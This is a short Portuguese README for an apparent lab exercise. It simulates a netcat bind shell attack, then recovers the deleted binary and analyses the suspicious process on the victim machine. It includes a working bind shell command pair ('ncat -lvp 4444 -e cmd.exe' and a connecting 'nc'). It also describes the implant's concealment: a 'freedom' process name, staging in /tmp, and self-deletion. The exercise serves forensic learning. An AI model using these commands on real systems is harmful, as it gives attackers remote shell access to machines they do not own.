 # bind-shell-attack

Nessa atividade foi necessário simular um bind shell attack, e após isso, no computador da vitima, recuperar o arquivo binário deletado desse ataque e analisar esse processo suspeito.

- Nesse ataque de backdoor foi utilizado o netcat, por mais que existam outras maneiras de realizar esse tipom de ataque.

Em um bind shell attack o computador da vítima é capaz de transmitir o executavel do bash, ou cmd, através de uma porta específica, para o computador da pessoa que deseja realizar esse ataque. No caso do netcat o atacante necessita fazer com que a vítima rode uma linha de comandos, transmitindo o bash para o computador do atacante. No caso do bind shell, o computador da vítima fica esperando que o computador de ataque se conecte ao ip e a porta.

Ex:
  C:\Program Files (x86)\Nmap>ncat -lvp 4444 -e cmd.exe  -> computador da vítima 
  
  nc 192.168.56.1 4444 -> computador de ataque
  
Na atividade o netcat abre a porta tcp 41000 e envia informações para /dev/null do computador da vitima. Além disso ele mascara o nome do programa para "freedom",é colocado no diretorio /tmp(arquivos temporários), e após executado é removido, sobrando apenas o seu processo em execução.




